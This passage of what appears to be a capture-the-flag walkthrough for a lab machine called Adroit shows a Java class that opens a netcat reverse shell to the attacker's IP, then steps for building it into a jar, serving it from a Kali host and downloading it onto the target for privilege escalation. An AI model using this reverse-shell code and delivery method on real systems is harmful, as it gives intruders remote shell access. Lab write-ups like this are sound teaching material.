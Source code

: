 public class Explo {

	public static void main(String[] args) throws IOException {
		//10.0.2.15 is my ip
		String cmd = "nc -e /bin/sh 10.0.2.15 4444";
		Process p = Runtime.getRuntime().exec(cmd);
		
		BufferedReader pRead = new BufferedReader(new InputStreamReader(p.getInputStream()));

		String line;

		while ((line = pRead.readLine()) != null) {

			System.out.println(line);

		}

	}

}

## WAY TO ROOT

## Changing compiler level
First we need to change java compiler version of the testingmyapp project from 14 to 11, because the Adroit vm can execute jar file with 11 version

## Export testingmyapp to testingmyapp.jar
Click on the testingmyapp -> Right click -> Export -> Java -> Runnable JAR file -> Launch configuration -> Explo - testingmyapp -> Finish

## Uploading the testingmyapp.jar to the adroit machine

----------
my machine
----------
┌──(alienum㉿kali)-[~/Desktop]
└─$ python3 -m http.server 8001
Serving HTTP on 0.0.0.0 port 8001 (http://0.0.0.0:8001/) ...
10.0.2.142 - - [16/Jan/2021 01:08:07] "GET /testingmyapp.jar HTTP/1.1" 200 -

---------------
adroit machine
--------------
writer@adroit:/tmp$ wget http://10.0.2.15:8001/testingmyapp.jar
--2021-01-15 18:08:08--  http://10.0.2.15:8001/testingmyapp.jar
Connecting to 10.0.2.15:8001... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1191 (1.2K) [application/java-archive]
Saving to: ‘testingmyapp.jar’

testingmyapp.jar                     100%[====================================================================>]   1.16K  --.-KB/s    in 0s      
